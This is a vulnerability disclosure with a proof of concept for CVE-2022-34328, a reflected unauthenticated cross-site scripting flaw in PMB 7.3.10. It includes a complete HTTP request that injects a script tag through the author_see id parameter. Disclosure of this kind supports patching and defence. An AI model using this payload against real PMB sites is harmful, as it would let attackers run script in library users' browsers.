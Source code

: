 ## PMB  7.3.10 - CVE-2022-34328 

* Description : Allow attacker to inject arbitrary malicious HTML or Javascripts code in user web browser
* Affected version :  7.3.10 >=

### Information

To make this PoC, I just installed the software (`https://forge.sigb.net/projects/pmb/files`)

* Vulnerability Type : XSS Reflected ( Unauthentificated )

### POC 

There is an exemple with alert: 

```
GET /index.php?lvl=author_see&id=42691%27%7cecho%20%3E%3C/a%3E%3C/span%3E%3Cscript%3Ealert(1)%3C/script%3Ed5u3g%20ijwh7gefly%20%23xzwx HTTP/1.1
Host: xxxxx.fr
Cookie: PhpMyBibli-OPACDB=pmb_test; _ga=GA1.2.80710046205; __utmz=147501360.tmcsr=(direct)|utmccn=(direct)|utmcmd=(none); __utma=147501632.2; PhpMyBibli-COOKIECONSENT=!pmbstatopac=true
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="101"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
```

### Preview 

<img width="1280" alt="poc-xss" src="https://raw.githubusercontent.com/jenaye/PMB/main/poc.png">
